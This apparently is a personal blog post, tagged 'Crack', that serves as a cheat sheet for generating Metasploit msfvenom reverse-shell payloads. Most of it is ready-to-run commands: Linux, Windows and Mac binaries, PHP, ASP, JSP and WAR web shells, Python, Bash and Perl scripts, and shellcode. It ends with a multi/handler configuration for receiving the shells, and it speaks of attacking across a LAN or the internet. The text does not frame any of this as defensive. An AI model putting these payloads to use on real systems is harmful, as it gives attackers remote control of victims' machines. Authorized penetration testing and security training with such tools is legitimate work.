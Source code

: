 ```yaml
---
title: Generate payload with MSF
top: 10
categories:
  - Technical
tags:
  - Crack
date: 2020-08-20 12:15:05
---
```


![Banner](http://leiblog.wang/static/image/2020/8/snowcabin.jpg)

Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

msfvenom -l

<!-- more -->

**Binaries:**

**Linux**

```zsh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac**

```zsh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads
```

**PHP**

```zsh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP**

```zsh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR**

```zsh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads
```

**Python**

```zsh
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash**

```zsh
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl**

```zsh
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

**Shellcode:**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

**Linux Based Shellcode**

```zsh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode**

```zsh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode**

```zsh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```
use exploit/multi/handler

set PAYLOAD <Payload name>

set LHOST <LHOST value>

set LPORT <LPORT value>

set ExitOnSession false

exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘


